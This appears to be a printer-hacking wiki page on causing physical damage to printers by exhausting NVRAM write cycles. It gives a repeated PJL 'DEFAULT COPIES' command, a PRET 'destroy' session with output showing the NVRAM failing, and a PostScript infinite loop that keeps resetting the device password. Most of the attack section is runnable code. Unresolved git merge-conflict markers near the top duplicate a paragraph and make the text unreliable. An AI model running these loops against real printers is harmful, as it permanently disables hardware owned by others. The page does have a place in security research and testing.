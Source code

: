 # Physical Damage

<<<<<<< HEAD
Long-term settings for printers and other embedded devices are stored in non-volatile memory \([NVRAM](https://en.wikipedia.org/wiki/Non-volatile_random-access_memory)\) which is traditionally implemented either as [EEPROM](https://en.wikipedia.org/wiki/EEPROM) or as [flash memory](https://en.wikipedia.org/wiki/Flash_memory). Both components have a limited lifetime. Today, vendors of flash memory guarantee about 100,000 rewrites before any write errors may occur.
=======
 Long-term settings for printers and other embedded devices are stored in non-volatile memory ([NVRAM](https://en.wikipedia.org/wiki/Non-volatile_random-access_memory)) which is traditionally implemented either as [EEPROM](https://en.wikipedia.org/wiki/EEPROM) or as [flash memory](https://en.wikipedia.org/wiki/Flash_memory). Both components have a limited lifetime. Today, vendors of flash memory guarantee about 100,000 rewrites before any write errors may occur.
>>>>>>> 72cbd88461ed0e65da5433596050dd2ecb643f6b

## PJL

For a practical test to destroy NVRAM write functionality one can continuously set the long-term value for the number of copies with different values for `X`:

```
@PJL DEFAULT COPIES=X
```

Usually, before stop allowing writing anymore NVRAM parameters are fixed to the factory default value and all variables could still be changed for the current print job using the `@PJL SET...` command.

Using [PRET](https://github.com/RUB-NDS/PRET):

```
./pret.py -q printer pjl
Connection to printer established

Welcome to the pret shell. Type help or ? to list commands.
printer:/> destroy
Warning: This command tries to cause physical damage to the
printer NVRAM. Use at your own risk. Press CTRL+C to abort.
Starting NVRAM write cycle loop in... 10 9 8 7 6 5 4 3 2 1 KABOOM!
Dave, stop. Stop, will you? Stop, Dave. Will you stop, Dave?
[... wait for about 24 hours ...]
I'm afraid. I'm afraid, Dave. Dave, my mind is going...
NVRAM died after 543894 cycles, 18:46:11
```

## PostScript

For PostScript, one needs to find an entry in the currentsystemparams dictionary which survives a reboot (and therefore must be stored in some kind of NVRAM). A good candidate would be a PostScript password.\
PostScript can run a script that corrupts its own NVRAM:

```
/counter 0 def
{ << /Password counter 16 string cvs
     /SystemParamsPassword counter 1 add 16 string cvs
  >> setsystemparams /counter counter 1 add def
} loop
```

**More information about these techniques can be found in **[**http://hacking-printers.net/wiki/index.php/Physical_damage**](http://hacking-printers.net/wiki/index.php/Physical_damage)****

